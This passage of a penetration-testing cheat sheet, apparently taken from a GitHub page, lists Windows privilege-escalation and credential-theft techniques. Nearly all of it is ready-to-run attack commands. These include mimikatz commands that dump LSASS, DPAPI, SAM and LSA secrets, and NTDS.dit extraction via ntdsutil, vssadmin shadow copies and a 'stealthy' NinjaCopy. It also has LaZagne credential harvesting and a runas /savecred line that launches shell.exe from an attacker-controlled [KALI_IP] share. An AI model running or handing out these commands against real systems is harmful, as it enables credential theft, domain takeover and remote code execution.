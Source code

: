             *   [SeDebug](https://github.com/decoder-it/psgetsystem)
                *   Binary → [Mimikatz](https://github.com/ParrotSec/mimikatz)
                *   LSASS / DPAPI / VAULT Dumping
                    *   `mimikatz '"privilege::debug" "token::elevate" "sekurlsa::logonPasswords"'`
                    *   `mimikatz '"privilege::debug" "token::elevate" "sekurlsa::dpapi"'`
                    *   `mimikatz ‘"privilege::debug" "token::elevate" "sekurlsa::credman"’`
                *   SAM / LSA Dumping
                    *   `mimikatz '"privilege::debug" "token::elevate" "lsadump::sam"'`
                    *   `mimikatz '"privilege::debug" "token::elevate" "lsadump::lsa /patch"'`
                *   SYSTEM RCE
                    *   Get PID       → `tasklist /v /fi "username eq SYSTEM"`
                    *   [Method 1](https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1)  → `. .\psgetsys.ps1; ImpersonateFromParentPid -ppid [PID] -command [CMD] -cmdargs [ARGS]`
                    *   [Method 2](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
                    *   [Method 3](https://github.com/dev-zzo/exploits-nt-privesc/blob/master/SeDebugPrivilege/SeDebugPrivilege.c)
            *   [SeBackup](https://academy.hackthebox.com/module/67/section/601)
                *   SAM Dumping
                    *   `secretsdump.py -security SECURITY.save -sam SYSTEM.save LOCAL`
                    *   `reg save hklm\sam c:\windows\temp\SAM.save`
                    *   `reg save hklm\system c:\windows\temp\SYSTEM.save`
                *   NTDS Dumping
                    *   `secretsdump.py -ntds NTDS.dit.save -system SYSTEM.save LOCAL`
                    *   NTDSUtil
                        *   `ntdsutil 'ac i ntds' 'ifm' 'create full c:\windows\temp\NTDS' q q`
                        *   `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
                        *   `C:\Windows\Temp\NTDS\registry\SYSTEM`
                    *   VSSAdmin
                        *   `vssadmin create shadow /for=C:`
                        *   `copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\NTDS.dit.save`
                        *   `copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM.save`
                    *   NinjaCopy
                        *   Stealthy Approach
                        *   `Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\NTDS.dit.save"`
                        *   `reg save hklm\system c:\windows\temp\SYSTEM.save`
            *   [SeManageVolume](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9--------------------------------)
            *   [SeRestore](https://github.com/xct/SeRestoreAbuse)
    *   Credentials Hunting
        *   Once Compromised SYSTEM → Get All Possible Credentials
        *   Tools
            *   `Lazagne.exe all -oN`
            *   `Invoke-SessionGopher.ps1`
            *   [`https://github.com/carlospolop/MSF-Credentials`](https://github.com/carlospolop/MSF-Credentials)
            *   WinPEAS / PowerUP
        *   Hash Dumping (Local Admin)
            *   SeBackup / SeDebug Exploits
            *   Process Memory → `lazagne.exe memory`
        *   CMDKey Storage
            *   `cmdkey /list`
            *   `runas /savecred /user:[USER] “\\[KALI_IP]\Share\shell.exe”`
        *   Web Applications
            *   Web Roots            → `c:\xampp\htdocs`, `c:\inetpub\wwwroot`
            *   Host Mappings    → `default`, `000-default.conf`
            *   Log Files                → `[access/error].log`, `httpd-[access/error].log`, `httpd.conf`
            *   DB Files                 → `*[db/database/settings/config].*`, `*.db`, `.sql*`
            *   Code Analysis      → Sensitive Exposure / Docker Files / Inputs & Functions / Connection Strings / Dependencies
            *   Write Privileges   → WebShell + LOCAL/NETWORK Impersonate Escalation
        *   SMB Access
            *   `Find-DomainShare -CheckShareAccess` 
            *   `Invoke-ShareFinder` /`Invoke-FileFinder`